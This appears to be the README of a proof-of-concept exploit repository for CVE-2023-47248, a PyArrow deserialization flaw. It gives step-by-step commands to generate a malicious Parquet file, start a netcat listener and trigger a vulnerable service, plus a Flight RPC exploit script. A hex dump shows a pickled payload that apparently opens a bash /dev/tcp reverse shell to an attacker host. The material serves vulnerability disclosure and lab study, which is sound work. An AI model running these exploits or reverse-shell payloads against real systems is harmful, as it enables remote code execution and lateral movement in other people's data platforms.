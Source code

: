 # CVE-2023-47248

This project contains proof of concept exploit implementations for
[CVE-2023-47248](https://nvd.nist.gov/vuln/detail/CVE-2023-47248):

> Deserialization of untrusted data in IPC and Parquet readers in PyArrow versions 0.14.0 to 14.0.0 allows arbitrary
code execution. An application is vulnerable if it reads Arrow IPC, Feather or Parquet data from untrusted sources.

RCE happens due to unsafe unpickling of user-defined Arrow types created as subclasses of the `PyExtensionType` class
(which was deprecated in version 14.0.1). The `__reduce__` magic method of the user-defined type class can be crafted
in such a way that it executes malicious code (e.g., a reverse shell payload) when the object is unpickled.

## Exploit PoCs

### Parquet

The `exploit_parquet.py` Python script generates a Parquet file that establishes a reverse shell when read by the
vulnerable PyArrow library versions. This Parquet file is used in the Docker-based PoC scenarios to demonstrate how
threat actors can use it. For example, for lateral movement within data platforms if they obtain access to the data
lake.

<img src="images/poc_parquet_image.png">

The `poc_parquet/data` directory contains two Parquet files: `benign.parquet` and `malicious.parquet`. The former is a
simple Parquet file with legit data, while the latter is an evil file that reproduces the same schema as the benign file
but contains a malicious pickled Arrow type object in the metadata:

```
$ parquet-tools show poc_parquet/data/benign.parquet
+------+--------+
|   id | name   |
|------+--------|
|    1 | alice  |
|    2 | bob    |
+------+--------+
```

```
$ r2 -qc 'px $s' poc_parquet/data/benign.parquet 
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00000000  5041 5231 1500 152c 1530 2c15 0415 0015  PAR1...,.0,.....
0x00000010  0615 0600 0016 5402 0000 0004 0101 0000  ......T.........
0x00000020  0000 0000 0002 0000 0000 0000 0015 0015  ................
0x00000030  2c15 302c 1504 1500 1506 1506 0000 1654  ,.0,...........T
0x00000040  0200 0000 0401 0500 0000 616c 6963 6503  ..........alice.
0x00000050  0000 0062 6f62 1502 193c 3500 180d 6475  ...bob...<5...du
0x00000060  636b 6462 5f73 6368 656d 6115 0400 1504  ckdb_schema.....
0x00000070  2502 1802 6964 2524 0015 0c25 0218 046e  %...id%$...%...n
0x00000080  616d 6525 0000 1604 191c 192c 2600 1c15  ame%.......,&...
0x00000090  0419 1500 1918 0269 6415 0216 0416 4e16  .......id.....N.
0x000000a0  5226 083c 1808 0200 0000 0000 0000 1808  R&.<............
0x000000b0  0100 0000 0000 0000 1600 2808 0200 0000  ..........(.....
0x000000c0  0000 0000 1808 0100 0000 0000 0000 0000  ................
0x000000d0  0026 001c 150c 1915 0019 1804 6e61 6d65  .&..........name
0x000000e0  1502 1604 164e 1652 265a 3c18 0362 6f62  .....N.R&Z<..bob
0x000000f0  1805 616c 6963 6516 0028 0362 6f62 1805  ..alice..(.bob..
0x00000100  616c 6963 6500 0000 1680 8806 1604 2608  alice.........&.
0x00000110  0028 0644 7563 6b44 4200 c400 0000 5041  .(.DuckDB.....PA
0x00000120  5231
```

The malicious Parquet file is generated by running the `exploit_parquet.py` script:

```
$ pipenv install
$ pipenv run python exploit_parquet.py attacker 1337 poc/data/malicious.parquet
```

The first argument is the attacker's IP address or hostname, and in this particular case it's set to the container name
`attacker` defined in the [Docker Compose](./poc_parquet/docker-compose.yml) file.

The malicious PyArrow schema is stored in the file from offset 0x100 to 0x3e3:
```
$ r2 -qc 'px $s' poc_parquet/data/malicious.parquet
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00000000  5041 5231 1504 1500 1502 4c15 0015 0012  PAR1......L.....
0x00000010  0000 0026 261c 1504 1925 0006 1918 0269  ...&&....%.....i
0x00000020  6415 0216 0016 1c16 1e26 0026 0829 1c15  d........&.&.)..
0x00000030  0415 0015 0200 0000 1504 1500 1502 4c15  ..............L.
0x00000040  0015 0012 0000 0026 8e01 1c15 0c19 2500  .......&......%.
0x00000050  0619 1804 6e61 6d65 1502 1600 161c 161e  ....name........
0x00000060  2600 2670 291c 1504 1500 1502 0000 0015  &.&p)...........
0x00000070  0419 3c35 0018 0673 6368 656d 6115 0400  ..<5...schema...
0x00000080  1504 2502 1802 6964 0015 0c25 0218 046e  ..%...id...%...n
0x00000090  616d 6525 004c 1c00 0000 1600 191c 192c  ame%.L.........,
0x000000a0  2626 1c15 0419 2500 0619 1802 6964 1502  &&....%.....id..
0x000000b0  1600 161c 161e 2600 2608 291c 1504 1500  ......&.&.).....
0x000000c0  1502 0000 0026 8e01 1c15 0c19 2500 0619  .....&......%...
0x000000d0  1804 6e61 6d65 1502 1600 161c 161e 2600  ..name........&.
0x000000e0  2670 291c 1504 1500 1502 0000 0016 3816  &p)...........8.
0x000000f0  0026 0816 3c14 0000 191c 180c 4152 524f  .&..<.......ARRO
0x00000100  573a 7363 6865 6d61 18d8 052f 2f2f 2f2f  W:schema.../////
0x00000110  7867 4341 4141 5141 4141 4141 4141 4b41  xgCAAAQAAAAAAAKA
0x00000120  4177 4142 6741 4641 4167 4143 6741 4141  AwABgAFAAgACgAAA
0x00000130  4141 4242 4141 4d41 4141 4143 4141 4941  AABBAAMAAAACAAIA
0x00000140  4141 4142 4141 4941 4141 4142 4141 4141  AAABAAIAAAABAAAA
0x00000150  4149 4141 4143 3041 5141 4147 4141 4141  AIAAAC0AQAAGAAAA
0x00000160  4141 4145 6741 5941 4167 4142 6741 4841  AAAEgAYAAgABgAHA
0x00000170  4177 4141 4141 5141 4251 4145 6741 4141  AwAAAAQABQAEgAAA
0x00000180  4141 4141 5155 5541 4141 4165 4145 4141  AAAAQUUAAAAeAEAA
0x00000190  4167 4141 4141 5541 4141 4141 4141 4141  AgAAAAUAAAAAAAAA
0x000001a0  4151 4141 4142 7559 5731 6c41 4141 4141  AQAAABuYW1lAAAAA
0x000001b0  4149 4141 4142 5541 4141 4142 4141 4141  AIAAABUAAAABAAAA
0x000001c0  4c7a 2f2f 2f38 4941 4141 4149 4141 4141  Lz///8IAAAAIAAAA
0x000001d0  4251 4141 4142 4255 6c4a 5056 7a70 6c65  BQAAABBUlJPVzple
0x000001e0  4852 6c62 6e4e 7062 3234 3662 6d46 745a  HRlbnNpb246bmFtZ
0x000001f0  5141 4141 4141 5841 4141 4159 584a 7962  QAAAAAXAAAAYXJyb
0x00000200  3363 7563 486c 665a 5868 305a 5735 7a61  3cucHlfZXh0ZW5za
0x00000210  5739 7558 3352 3563 4755 4143 4141 4d41  W9uX3R5cGUACAAMA
0x00000220  4151 4143 4141 4941 4141 4143 4141 4141  AQACAAIAAAACAAAA
0x00000230  4351 4141 4141 5941 4141 4151 564a 5354  CQAAAAYAAAAQVJST
0x00000240  3163 365a 5868 305a 5735 7a61 5739 754f  1c6ZXh0ZW5zaW9uO
0x00000250  6d31 6c64 4746 6b59 5852 6841 4141 4141  m1ldGFkYXRhAAAAA
0x00000260  4d38 4141 4143 4142 4a58 4541 4141 4141  M8AAACABJXEAAAAA
0x00000270  4141 4141 4977 4a5a 6e56 7559 3352 7662  AAAAIwJZnVuY3Rvb
0x00000280  3278 7a6c 4977 4863 4746 7964 476c 6862  2xzlIwHcGFydGlhb
0x00000290  4a53 546c 4977 4b63 3356 6963 484a 7659  JSTlIwKc3VicHJvY
0x000002a0  3256 7a63 3553 4d42 5642 7663 4756 756c  2Vzc5SMBVBvcGVul
0x000002b0  4a4f 5568 5a52 536c 4368 6f42 536c 396c  JOUhZRSlChoBSl9l
0x000002c0  4369 4d45 584e 3059 584a 3058 3235 6c64  CiMEXN0YXJ0X25ld
0x000002d0  3139 7a5a 584e 7a61 5739 756c 4969 4d42  19zZXNzaW9ulIiMB
0x000002e0  6e4e 305a 4739 3164 4a52 4b2f 662f 2f2f  nN0ZG91dJRK/f///
0x000002f0  3477 4763 3352 6b5a 584a 796c 4572 392f  4wGc3RkZXJylEr9/
0x00000300  2f2f 2f64 5535 306c 474a 646c 4369 4d42  ///dU50lGJdlCiMB
0x00000310  474a 6863 3269 556a 4149 7459 3553 4d4f  GJhc2iUjAItY5SMO
0x00000320  5441 384a 6a55 784c 5474 6c65 4756 6a49  TA8JjUxLTtleGVjI
0x00000330  4455 7850 4434 765a 4756 324c 3352 6a63  DUxPD4vZGV2L3Rjc
0x00000340  4339 6864 4852 6859 3274 6c63 6938 784d  C9hdHRhY2tlci8xM
0x00000350  7a4d 334f 334e 6f49 4477 6d4e 5445 6750  zM3O3NoIDwmNTEgP
0x00000360  6959 314d 5341 7950 6959 314d 5a52 6c68  iY1MSAyPiY1MZRlh
0x00000370  5a52 536c 4573 4259 6934 4142 4141 4541  ZRSlEsBYi4ABAAEA
0x00000380  4151 4141 4141 5141 4251 4143 4141 4741  AQAAAAQABQACAAGA
0x00000390  4163 4144 4141 4141 4241 4145 4141 4141  AcADAAAABAAEAAAA
0x000003a0  4141 4141 5149 5141 4141 4148 4141 4141  AAAAQIQAAAAHAAAA
0x000003b0  4151 4141 4141 4141 4141 4141 6741 4141  AQAAAAAAAAAAgAAA
0x000003c0  476c 6b41 4141 4941 4177 4143 4141 4841  GlkAAAIAAwACAAHA
0x000003d0  4167 4141 4141 4141 4141 4251 4141 4141  AgAAAAAAAABQAAAA
0x000003e0  413d 3d00 1820 7061 7271 7565 742d 6370  A==.. parquet-cp
0x000003f0  702d 6172 726f 7720 7665 7273 696f 6e20  p-arrow version 
0x00000400  3134 2e30 2e30 192c 1c00 001c 0000 00a0  14.0.0.,........
0x00000410  0300 0050 4152 31                        ...PAR1
```

To execute the PoC scenario, first start the Docker containers:
```
$ cd poc_parquet
$ docker-compose up -d
[+] Building 0.0s (0/0)
[+] Running 5/5
✔ Network poc_parquet_default  Created
✔ Container minio              Started
✔ Container vulnerable-service Started 
✔ Container attacker           Started
✔ Container mc                 Started
```

Then connect to the `attacker` container and start a netcat listener on port 1337:
```
$ docker exec -it attacker /bin/bash 
bash-5.0# nc -nlvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
```

Finally, make the vulnerable service read the malicious Parquet file by triggering the exposed HTTP endpoint:
```
$ curl localhost:8080
{"id":[1,2],"name":["alice","bob"]}
```

After that, the reverse shell to the attacker container should be established.

### Flight RPC

In addition to the vulnerability in the Parquet reader, PyArrow is also vulnerable to arbitrary code execution when
deserializing Arrow data sent over the Flight RPC protocol. The `exploit_flight.py` Python script sends a request to
a vulnerable Flight service [DoPut](https://arrow.apache.org/docs/python/generated/pyarrow.flight.FlightServerBase.html#pyarrow.flight.FlightServerBase.do_put)
method, which triggers the deserialization of the pickled Arrow schema object containing the malicious `PyExtensionType`
type.

To execute the PoC scenario, start the Docker containers:
```
$ cd poc_flight
$ docker-compose up -d
[+] Building 0.0s (0/0)
[+] Running 3/3
✔ Container attacker            Started
✔ Container vulnerable-service  Started
✔ Container vulnerable-tabpy    Started
```

Then connect to the `attacker` container and start a netcat listener on port 1337:
```
$ docker exec -it attacker /bin/bash 
bash-5.0# nc -nlvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
```

Execute the exploit script against either the `vulnerable-service` or `vulnerable-tabpy` service:
```
$ pipenv install
$ pipenv run python exploit_flight.py attacker 1337 localhost 5005 # for vulnerable-service
$ pipenv run python exploit_flight.py attacker 1337 localhost 13622 # for vulnerable-tabpy
```

The reverse shell to the attacker container should be established from the target service.
